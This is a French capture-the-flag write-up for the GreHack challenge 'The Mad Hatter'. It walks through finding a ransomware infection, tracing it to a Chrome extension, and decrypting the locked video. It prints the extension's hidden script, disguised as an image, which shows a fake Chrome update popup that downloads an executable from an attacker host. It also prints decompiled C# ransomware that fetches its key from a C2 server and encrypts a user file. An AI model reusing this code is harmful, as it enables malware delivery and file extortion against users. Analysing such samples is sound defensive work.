

# The Mad Hatter 

## Description 

Le Chapelier fou, comme son nom l'indique, est un peu dérangé. Il ne cesse de répéter qu'il n'a pas besoin de protection antivirus, car il sait ce qu'il fait sur son ordinateur. Mais récemment, il a trouvé une note particulière sur son bureau, et l'un de ses fichiers préférés a été rendu totalement illisible... Depuis, il a rapidement réinstallé l'antivirus. Retrouvez le contenu de ce fameux fichier.

- Mot de passe de session : `i'm_the_mad_hatter!`

## Solve 

Il semblerait que d'après la description, le Chapelier fou se serait fait chiffrer un fichier et une note aurait été laissée sur son bureau, cela peut faire penser au comportement d'un ransomware.

En effet, après connexion à la session, nous pouvons retrouver une note sur son bureau sous le nom de `ransom_note.txt` : 

```
Your file has been encrypted. Pay 1337 beers to the GreHack staff to decrypt it !
```

Il n'y a pas énormément de programme d'installés sur la session, on remarque rapidement le navigateur Chrome, et en fouillant dans son historique, on pourrait comprendre qu'il a essayé d'installer une extension chrome et a ensuite cherché ce qu'était un ransomware.


Nous remarquons alors une extension installée sur le navigateur, qui a pour utilité de transformer une page HTML en PDF. 


Pour obtenir des détails sur cette extension, nous pouvons nous rendre sur `chrome://extensions/` afin de voir les extensions chargées et leur origine.
Il est alors possible de retrouver le chemin de la source de l'addon, qui était de plus cachée.



Le code JavaScript semble tout à fait légitime, mais un petit détail dans le fichier `manifest.json` retient notre attention : 


L'extension semble charger deux fichiers JavaScript, `content.png` et `pdf.js`.
Regardons de plus près `content.png` qui semblait jusqu'à présent être simplement une image.

```JavaScript
function UpdatePopup() {
    const popupWrapper = document.createElement('div');
    popupWrapper.id = 'ChromeUpdateWrapper';
    
    popupWrapper.style.position = 'fixed';
    popupWrapper.style.top = '10px'; 
    popupWrapper.style.right = '10px'; 

    popupWrapper.style.width = '20%'; 
    popupWrapper.style.height = 'auto';

    popupWrapper.style.zIndex = 99999;
    popupWrapper.style.boxShadow = '0px 0px 10px rgba(0,0,0,0.5)';
    popupWrapper.style.borderRadius = '8px';
    popupWrapper.style.backgroundColor = '#ffffff';
    popupWrapper.style.padding = '20px';
    popupWrapper.style.textAlign = 'center';
    popupWrapper.innerHTML = `
        
        <h3 style="color: red;">Chrome Update</h3>
        <p style="font-size: 12px; color: #666;">Critical update available.</p>
        <a target="_blank" href="https://i-will-pwn-your.host/static/chrome-update.exe" download class="updateButton">Update Now</a>
    `;

    const updateBtn = popupWrapper.querySelector('.updateButton');
    updateBtn.style.display = 'inline-block';
    updateBtn.style.padding = '8px 15px';
    updateBtn.style.marginTop = '10px';
    updateBtn.style.backgroundColor = '#4285F4';
    updateBtn.style.color = '#ffffff';
    updateBtn.style.textDecoration = 'none';
    updateBtn.style.borderRadius = '5px';
    updateBtn.style.cursor = 'pointer';
    
    updateBtn.addEventListener('click', function() {
        window.location.href = "https://i-will-pwn-your.host/static/chrome-update.exe";
    });

    document.body.appendChild(popupWrapper);
}

if (Math.random() <= 0.05) {
    UpdatePopup();
}

chrome.runtime.onMessage.addListener((message, sender, sendResponse) => {
    if (message.action === 'getHTML') {
        sendResponse(document.documentElement.outerHTML);
    }
});
```

De ce que l'on comprend du code, celui-ci va 1 fois sur 20 (`if (Math.random() <= 0.05)`) afficher une popup sur la page web visitée par la victime, faisant apparaître une popup de mise à jour chrome, qui va télécharger le binaire sur `https://i-will-pwn-your.host/static/chrome-update.exe`.

Nous allons télécharger ce binaire que nous ne retrouvons pas sur la session de la victime pour l'analyser avec [dnSpy](https://github.com/dnSpy/dnSpy).

Une fois chargé, nous apercevons plusieurs fonctions qui peuvent nous faire penser à un programme malveillant, comme `Encrypt`, `GetKIV`, `Extract`. Le programme semble un petit peu obfusqué 


```c#
public static void Main(string[] args)
{
    try
    {
        Program.GetKIV();
        string path = Environment.GetFolderPath(Environment.SpecialFolder.Personal) + Program.De("\secret_video.mp4");
        string path2 = Environment.GetFolderPath(Environment.SpecialFolder.Desktop) + Program.De("\ransom_note.txt");
        if (File.Exists(path))
        {
            byte[] bytes = Program.Encrypt(File.ReadAllBytes(path), Program.k, Program.iv);
            File.WriteAllBytes(path, bytes);
            File.WriteAllText(path2, Program.De("Your file has been encrypted. Pay 1337 beers to the GreHack staff to decrypt it !"));
        }
    }
    catch (Exception ex)
    {
        Console.WriteLine("An error occurred: " + ex.Message);
    }
}
```

Dans la fonction `Main` nous retrouvons ce fameux fichier `ransom_note.txt`, mais aussi le fichier qui a été chiffré, à savoir `secret_video.mp4` dans les Documents.

```c#
public static void GetKIV()
{
    string address = Program.De("https://i-will-pwn-your.host/4af5da2e9ef5efd3520c9a9f463dbdee");
    string str = Program.De("c2_m4st3r");
    string str2 = Program.De("29a3675bc87ad32852f7935741f8e98cee547c65");
    string str3 = Convert.ToBase64String(Encoding.ASCII.GetBytes(str + ":" + str2));
    using (WebClient webClient = new WebClient())
    {
        webClient.Headers[HttpRequestHeader.Authorization] = "Basic " + str3;
        string json = webClient.DownloadString(address);
        Program.ks = Program.Extract(json, "key");
        Program.ivs = Program.Extract(json, "iv");
    }
    Program.k = SHA256.Create().ComputeHash(Encoding.UTF8.GetBytes(Program.ks));
    Program.iv = MD5.Create().ComputeHash(Encoding.UTF8.GetBytes(Program.ivs));
}
```

Dans la fonction `GetKIV`, nous comprenons qu'il récupère la `key` et l'`iv` via une requête HTTP authentifiée. 
Nous pouvons maintenant récupérer ces deux valeurs et déchiffrer la vidéo.

```bash
» curl -ski 'https://i-will-pwn-your.host/4af5da2e9ef5efd3520c9a9f463dbdee' -u 'c2_m4st3r:29a3675bc87ad32852f7935741f8e98cee547c65'
HTTP/2 200
date: Mon, 04 Sep 2023 17:52:43 GMT
content-type: application/json
content-length: 67
alt-svc: h3=":443"; ma=86400
cf-cache-status: DYNAMIC
report-to: {"endpoints":[{"url":"https:\/\/a.nel.cloudflare.com\/report\/v3?s=TnH2Ps4ZMNDm1nqFm%2F04n0JDcLNNDNSamZCXtlZj6Efx7%2BWdWVw%2F2WpnkHv0H6y%2FVH1C69tO6%2Bj5JdxlAbwlyY7VurhXjNbqzML9qww0napipnhfrNABkfFOmBImgwcfmYIZ0szF1A%3D%3D"}],"group":"cf-nel","max_age":604800}
nel: {"success_fraction":0,"report_to":"cf-nel","max_age":604800}
server: cloudflare
cf-ray: 8018167d7ecbd31d-CDG

{"iv":"1337733113377331","key":"4a448c0831b578470664af35a7067315"}
```

```bash
» key=$(echo -n "4a448c0831b578470664af35a7067315" | sha256sum | awk '{print $1}')
» iv=$(echo -n "1337733113377331" | md5sum | awk '{print $1}')
» openssl enc -d -aes-256-cbc -in secret_video.mp4 -out secret_video_decrypt.mp4 -K $key -iv $iv
```


Flag : `GH{fr0m_Add0n_t0_r4ns0m_!!}`